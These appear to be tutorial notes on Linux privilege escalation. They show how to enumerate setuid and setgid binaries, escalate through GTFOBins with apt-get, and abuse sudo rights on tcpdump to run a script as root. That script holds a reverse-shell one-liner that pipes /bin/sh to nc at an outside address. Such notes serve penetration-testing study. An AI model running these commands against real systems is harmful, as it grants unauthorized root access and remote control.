 ## Setuid Bit

The **Set User ID upon Execution** (**setuid**) permission can allow a user to execute a program or script with the permissions of another user, typically with elevated privileges. The setuid bit appears as an `s`.
```console
zero@pio$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

It may be possible to reverse engineer the program with the SETUID bit set, identify a vulnerability, and exploit this to escalate our privileges. The **Set-Group-ID** (**setgid**) permission is another special permission that allows us to run binaries as if we were part of the group that created them.
```console
zero@pio$ find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
```

## GTFOBins 

This [project](https://gtfobins.github.io/) provides us a wide range of escalation privileges for Unix binaries. For example:
```console
zero@pio$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh

# id
uid=0(root) gid=0(root) groups=0(root)
```

---

# Sudo Right Abuse 

Sudo privileges can be granted to an account, permitting the account to run certain commands in the context of the root (or another account) without having to change users or grant excessive privileges. When the **sudo** command is issued, the system will check if the user issuing the command has the appropriate rights, as configured in `/etc/sudoers`{: .filepath}. The first thing to do is running the following command:
```console
zero@pio$ sudo -l
```

This will list all the privileges of our current user. If we see the option `NOPASSWD`, we can run the path next to it with other user privileges. Take for example we could run **tcpdump** with root privileges. We can start our privilage escalation:
```console
zero@pio$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root 
zero@pio$ cat /tmp/.test

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f

zero@pio$ sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```
